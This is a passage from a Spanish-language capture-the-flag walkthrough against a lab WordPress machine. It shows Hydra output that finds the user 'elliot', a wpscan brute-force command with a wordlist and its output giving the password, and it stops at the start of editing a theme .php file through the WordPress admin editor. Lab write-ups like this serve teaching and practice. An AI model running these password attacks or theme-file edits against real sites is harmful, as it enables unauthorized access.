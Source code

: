 ```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-06 00:32:41
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking http-post-form://10.10.126.203:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.126.203%2Fwp-admin%2F&testcookie=1:Invalid username
[80][http-post-form] host: 10.10.126.203   login: elliot   password: test
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-06 00:32:43
```

El análisis realizado nos revela que el usuario `elliot` tiene una cuenta en el panel de WordPress. Por lo tanto, a contiuación empleamos la herramienta `wpscan` para ejecutar un ataque de fuerza bruta y encontrar una contraseña válida para dicho usuario.

```bash
❯ wpscan --url http://10.10.126.203/wp-login.php -U elliot -P fsocity_sorted.dic -t 100
```

Donde:

- `–-url http://10.10.126.203/wp-login.php`: indica la URL del formulario de inicio de sesión de WordPress que se va a escanear.
- `-U elliot`: indica que se usará el nombre de usuario “elliot” para probar las contraseñas.
- `-P fsocity_sorted.dic`: indica que se usará el archivo fsocity_sorted.dic como una lista de contraseñas para probar.
- `-t 100`: indica que se usarán 100 hilos concurrentes para realizar el escaneo.

```bash
[...]

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - elliot / ER28-0652                                                                                                                                                        
Trying elliot / exception Time: 00:02:49 <=================================                                                                     > (5700 / 17151) 33.23%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652

[...]
```

Observamos que hemos obtenido con éxito la contraseña válida `ER28-0652` para el usuario `elliot`. Con estas credenciales accedemos al panel de WordPress.

![wp-admin](wp-admin.png)

Ya que hemos iniciado sesión, podemos modificar un archivo `.php` del tema actualmente utilizado.

Para ello, nos dirigimos a la sección `Appearance` del panel de control de WordPress, luego seleccionamos `Editor`. 

